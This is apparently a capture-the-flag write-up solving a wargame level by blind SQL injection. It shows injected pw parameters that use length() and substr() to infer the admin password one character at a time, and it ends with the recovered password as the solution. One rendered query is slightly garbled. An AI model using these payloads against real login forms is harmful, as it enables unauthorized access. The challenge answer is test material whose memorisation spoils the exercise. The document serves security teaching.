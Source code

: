 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 4
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/3bcdaeff-a4ba-4e3c-8acd-73e2ec8ce6d9)

We are provided with the SQL query:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='{$_GET[pw]}'
```

The code also performs two conditional checks:

1. `if($result['id'])`: It checks if the statement is `True`. If yes, it prints the following message: `Hello admin`
2. `if(($result['pw']) && ($result['pw'] == $_GET['pw']))`: It then checks if the `pw` that is provided is correct. If yes, it prints the flag.


In order to print out the flag, we need to first know the password. We have to perform a Blind SQL Injection.

### Blind SQL Injection

First we have to reveal the length of the flag.

If we provide the following URI:

```
?pw=' OR id='admin' AND length(pw)=1 %23
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR #length(pw)=1 #'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR length(pw)=1

## Commented part:
`
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/8a33f464-e7de-4d4a-a47c-7285e7d69ea9)

Since the `Hello admin` message is not printed, we know that the resultant query did not result in `True`.
That tells us that the length of the `pw` column is more than 1.

If we keep increasing the length and provide the following URI:

```
?pw=' OR id='admin' AND length(pw)=8 %23
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND length(pw)=8 #'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND length(pw)=8

## Commented part:
`
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/9d922a6a-4f1e-4b4a-a3bd-e8d8b721ba3e)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.
That tells us that the length of the `pw` column is 8.

### Leaking the password

Next, we can leak the password byte by byte using the `substr()` function.

#### `substr()`

![4](https://github.com/Kunull/Write-ups/assets/110326359/b1e4352c-c272-4fb7-8401-7d5fe2cc4423)

If we provide the following URI:

```
?pw=' OR id='admin' AND substr(pw, 1, 1)=0 %23
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 1, 1)=0 #'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 1, 1)=0 #

## Commented part:
`
```

![5](https://github.com/Kunull/Write-ups/assets/110326359/53f17b2b-b80d-4b8e-a904-bd88c1cbb7f3)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.
That tells us that the first character of the `pw` for `id=admin` is `0`.

We can now move onto the second character:

```
?pw=' OR id='admin' AND substr(pw, 2, 1)=0 %23
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 2, 1)=0 #'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 2, 1)=0

## Commented part:
`
```

![6](https://github.com/Kunull/Write-ups/assets/110326359/7abdfbc4-b2e1-4448-ad7e-8e38484d4cc1)

Since the `Hello admin` message is not printed, we know that the resultant query did not result in `True`.
That tells us that the second character of the `pw` for `id=admin` is not `0`.

We can try other characters moving up to the following:

```
?pw=' OR id='admin' AND substr(pw, 2, 1)=9 %23
```

![7](https://github.com/Kunull/Write-ups/assets/110326359/fcc7790e-333b-4b3c-b197-bfc02f67788d)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.
That tells us that the second character of the `pw` for `id=admin` is `9`.

We can keep repeating this process until we get all the eight characters of the `admin` password:

```
095a9852
```

Now, we can provide password URI:

```
?pw=095a9852' %23
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='095a9852'
```

![8](https://github.com/Kunull/Write-ups/assets/110326359/cee48c8e-2e61-4ccd-93fc-2abe7fb6d417)
